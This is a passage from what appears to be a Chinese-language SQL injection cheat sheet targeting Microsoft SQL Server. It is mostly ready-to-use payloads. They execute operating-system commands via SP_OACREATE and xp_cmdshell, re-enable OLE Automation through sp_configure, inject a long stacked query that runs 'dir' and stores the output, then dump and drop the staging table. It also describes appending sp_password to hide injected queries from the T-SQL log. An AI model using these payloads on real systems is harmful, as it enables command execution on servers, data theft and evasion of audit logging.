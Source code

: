 或者，您可以创建自己的过程来获得相同的结果：

```text
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```

如果SQL版本高于2000，则必须运行其他查询才能执行上述命令：

```text
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure
```

Example: 检查是否加载了xp\_cmdshell，如果是，则检查它是否处于活动状态，然后继续运行“dir”命令并将结果插入到TMP\_DB中：

```text
' IF EXISTS (SELECT 1 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='TMP_DB') DROP TABLE TMP_DB DECLARE @a varchar(8000) IF EXISTS(SELECT * FROM dbo.sysobjects WHERE id = object_id (N'[dbo].[xp_cmdshell]') AND OBJECTPROPERTY (id, N'IsExtendedProc') = 1) BEGIN CREATE TABLE %23xp_cmdshell (name nvarchar(11), min int, max int, config_value int, run_value int) INSERT %23xp_cmdshell EXEC master..sp_configure 'xp_cmdshell' IF EXISTS (SELECT * FROM %23xp_cmdshell WHERE config_value=1)BEGIN CREATE TABLE %23Data (dir varchar(8000)) INSERT %23Data EXEC master..xp_cmdshell 'dir' SELECT @a='' SELECT @a=Replace(@a%2B'<br></font><font color="black">'%2Bdir,'<dir>','</font><font color="orange">') FROM %23Data WHERE dir>@a DROP TABLE %23Data END ELSE SELECT @a='xp_cmdshell not enabled' DROP TABLE %23xp_cmdshell END ELSE SELECT @a='xp_cmdshell not found' SELECT @a AS tbl INTO TMP_DB--
```

转储内容:

```text
' UNION SELECT tbl FROM TMP_DB--
```

删除表：

```text
' DROP TABLE TMP_DB--
```

#### SP\_PASSWORD（隐藏查询）

将sp\_password附加到查询的末尾会将其从T-SQL日志中隐藏，作为安全措施。

```text
SP_PASSWORD

Example:
' AND 1=1--sp_password


Output:
-- 'sp_password' was found in the text of this event.
-- The text has been replaced with this comment for security reasons.
```
